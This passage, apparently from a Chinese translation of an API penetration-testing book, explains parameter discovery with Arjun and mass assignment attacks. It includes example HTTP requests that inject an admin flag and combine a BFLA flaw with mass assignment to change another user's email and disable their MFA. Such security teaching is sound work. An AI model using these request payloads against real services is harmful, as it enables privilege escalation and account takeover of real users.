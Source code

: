 结果，Arjun 将向目标主机发送一系列带有各种参数的请求，这些参数来自词汇表。然后，Arjun 将根据响应长度和响应代码的偏差缩小可能的参数范围，并为你提供一个有效参数的列表。

请记住，如果你遇到速率限制问题，可以使用 Arjun 的`—stable`选项来减慢扫描速度。这个示例扫描已完成并发现了三个有效参数：`user`、`pass`和`admin`。

许多 API 会阻止你在单个请求中发送过多的参数。因此，你可能会收到一些 HTTP 状态码，通常位于 400 范围内，例如 400 Bad Request、401 Unauthorized 或 413 Payload Too Large。在这种情况下，你可以选择通过多个请求来遍历可能的大规模赋值变量，而不是发送一个大的请求。这可以通过在 Burp Suite 的 Intruder 中设置请求，将可能的大规模赋值值作为负载来完成，像这样：

```
POST /api/v1/register
`--snip--`
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
**§"admin": true§,**
"password":"Password1!"
}
```

## 结合 BFLA 和大规模赋值

如果你发现了一个 BFLA 漏洞，允许你更新其他用户的账户信息，可以尝试将这个能力与大规模赋值攻击结合起来。例如，假设一个名叫 Ash 的用户发现了一个 BFLA 漏洞，但这个漏洞只允许他编辑一些基本的个人资料信息，如用户名、地址、城市和地区：

```
PUT /api/v1/account/update
Token:UserA-Token
`--snip--`
{
"username": "Ash",
"address": "123 C St",
"city": "Pallet Town"
"region": "Kanto",
}
```

到这一点，Ash 可以篡改其他用户账户，但也仅此而已。然而，如果通过此请求执行大规模赋值攻击，可能会使 BFLA 漏洞变得更加严重。假设 Ash 分析了 API 中其他的 GET 请求，并注意到其他请求包含了电子邮件和多因素认证（MFA）设置的参数。Ash 知道有另一个用户，名叫 Brock，他想访问该账户。

Ash 可以禁用 Brock 的 MFA 设置，从而更容易访问 Brock 的账户。此外，Ash 还可以将 Brock 的电子邮件替换为自己的。如果 Ash 发送以下请求并获得成功响应，他就能访问 Brock 的账户：

```
PUT /api/v1/account/update
Token:UserA-Token
`--snip--`
{
"username": "Brock",
"address": "456 Onyx Dr",
"city": "Pewter Town",
"region": "Kanto",
"email": "ash@email.com",
"mfa": false
}
```
